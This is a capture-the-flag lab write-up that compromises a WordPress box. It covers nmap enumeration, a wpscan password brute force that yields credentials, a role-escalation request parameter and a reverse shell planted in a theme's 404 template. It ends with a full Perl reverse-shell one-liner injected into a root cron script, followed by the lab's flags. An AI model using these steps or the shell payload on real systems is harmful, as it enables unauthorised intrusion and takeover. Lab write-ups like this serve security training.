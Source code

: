 # Tatakae

## Enumeration

```bash
└─$ nmap -sV -A -p- -sC -T4 10.10.196.137 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-24 17:27 BST
Nmap scan report for 10.10.196.137
Host is up (0.035s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3e:79:78:08:93:31:d0:83:7f:e2:bc:b6:14:bf:5d:9b (RSA)
|   256 3a:67:9f:af:7e:66:fa:e3:f8:c7:54:49:63:38:a2:93 (ECDSA)
|_  256 8c:ef:55:b0:23:73:2c:14:09:45:22:ac:84:cb:40:d2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Eren&#039;s internal rambling &#8211; Blog for eren&#039;s tho...
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-generator: WordPress 5.3.2
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Exploitation

### A wordpress website run on it so I use WP-Scan
```bash
└─$ sudo wpscan --url http://10.10.196.137/ -P /usr/share/wordlists/rockyou.txt -U user.txt -t 3
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - armin / bestfriends 
```

### Add "&ure_other_roles=administrator" to the requeste "Update Account" on the wordpress with Burp Suite

### I have changed the plugin 404 with the pentest-monkey reverse shell

### I got a shell as eren

## User FLAG

```cat user.txt``` : EPI{HoMe_wA2_No7H1NG_8U7_A_pEN}

## Privilege Escalation

### Linpeas gave me nothing, but pspy64 yes

### A script run every 2 minutes as root and use the python os library, so I have modified it with a perl command and i got a shell as root
```python
execvp('perl -e 'use Socket;$i="10.8.37.214";$p=4445;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'')
```
## Root FLAG
```bash
cd /root
```
```cat `ls` ``` : EPI{1_h4V3_73H_PhR33D0M_70_C0n71nu3_M0v1N9_pH0rW4RD}
